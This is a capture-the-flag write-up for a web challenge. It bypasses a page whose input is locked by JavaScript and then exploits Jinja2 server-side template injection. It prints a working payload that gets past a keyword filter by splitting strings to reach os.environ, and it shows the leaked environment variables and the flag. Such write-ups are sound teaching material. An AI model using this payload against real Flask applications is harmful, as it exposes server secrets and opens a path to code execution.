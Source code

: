 ```yaml
---
layout: writeup
parent: "EnigmaXplore 3.0"
tags: ["web", "ssti"]
---
```

```
Whispers echo in hollow chambers, yet the gatekeeper steals your voice. To speak the hidden truth, you must first silence the thief in your own house. The language of walls awaits those who can rebuild what was broken— piece by piece, the modular secret reveals what sleeps in the server's shadow.
```
index.html:
```html
<!doctype html>
<html>
<head>
  <meta charset="utf-8">
  <title>Announce (Locked)</title>
  <style> 
    body{font-family:Arial,Helvetica,sans-serif;margin:2rem;} 
    .hint{color:#666}
    .error{color:red; font-weight:bold;}
    .success{color:green; font-weight:bold;}
  </style>
</head>
<body>
  <h2>Post an announcement</h2>
  <form method="POST" action="/submit">
    <input id="trick" name="message" placeholder="Click to type..." style="width:60%;padding:.4rem" autocomplete="off" />
    <button id="other" type="button">Focus sink</button>
    <button type="submit">Submit</button>
  </form>
  <p class="hint">Announce all you want all day long.</p>

<script>
(function(){
  var t = document.getElementById('trick');
  
  window.trickKeyHandler = function(e){
    if (t.dataset.locked === '1') {
      e.preventDefault();
      if (e.key && e.key.length === 1) {
        console.log("Typing locked. Use DevTools to enable input.");
      }
    }
  };
  
  window.trickFocus = function(e){
    e.target.blur();
    document.getElementById('other').focus();
    t.dataset.locked = '1';
    t.readOnly = true;
    try { t.addEventListener('keydown', window.trickKeyHandler); } catch(ex){}
    console.log("Focus stolen and input locked!");
  };
  
  function attach(){
    if (!t.dataset._attached) {
      t.addEventListener('focus', window.trickFocus);
      t.addEventListener('keydown', window.trickKeyHandler);
      t.dataset._attached = '1';
    }
  }
  attach();
  
  setInterval(function(){
    attach();
    t.dataset.locked = '1';
    t.readOnly = true;
  }, 700);
  
  window.addEventListener('focus', function(){
    attach();
    t.dataset.locked = '1';
    t.readOnly = true;
  });
})();
</script>
</body>
</html>
```

# Method

## Lockdown

The first challenge lies in bypassing the 'lockdown' restrictions on the form input. In order to get around the restrictions, we can simply use JavaScript within the console to directly modify the form's values and submit it:

```javascript
document.querySelector('[name="message"]').value = `your_value_here`;
document.forms[0].submit();
```

## SSTI

After testing some sample payloads to check how user input is being used, if we run `{% raw %}{{config}}{% endraw %}` in our message value we can see that the config information for Jinja2 is returned:
```
<Config {'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': None, 'SECRET_KEY_FALLBACKS': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'TRUSTED_HOSTS': None, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_PARTITIONED': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'MAX_FORM_MEMORY_SIZE': 500000, 'MAX_FORM_PARTS': 1000, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'PROVIDE_AUTOMATIC_OPTIONS': True}>
```

This tells us that the server is vulnerable to SSTI.

When we try a simple SSTI exploit that leaks all environment variables:

```
{% raw %}
{{ type.__init__['__globals__']['__builtins__']['__import__']('os')['environ'] }}
{% endraw %}
```

We get varying error messages from the server. This indicates that there is some sort of filter going on in the backend. After some trial and error, I found that using `__globals__`, `__builtins__` or `__import__` within the message replaces it with `REDACTED` exposing where this filtering is happening. By simply breaking up the strings, we can get past this filter and dump the environment variables, one of which is the flag.

### Payload
```
{% raw %}
{{ type.__init__['__glob'+'als__']['__built'+'ins__']['__imp'+'ort__']('os')['environ'] }}
{% endraw %}
```

### Response
```
environ({'PATH': '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', 'HOSTNAME': '6c0b8e3eaf5e', 'TERM': 'xterm', 'LANG': 'C.UTF-8', 'GPG_KEY': 'A035C8C19219BA821ECEA86B64E628F8D684696D', 'PYTHON_VERSION': '3.11.14', 'PYTHON_SHA256': '8d3ed8ec5c88c1c95f5e558612a725450d2452813ddad5e58fdb1a53b1209b78', 'FLASK_RUN_HOST': '0.0.0.0', 'FLASK_RUN_PORT': '5050', 'HOME': '/home/ctf', 'FLAG': 'EnXp{N01T53UQFTC34T3DAM5A47ANUK}', 'FLASK_ENV': 'production', 'WERKZEUG_SERVER_FD': '3'})
```
<br>
<br>
`EnXp{N01T53UQFTC34T3DAM5A47ANUK}`


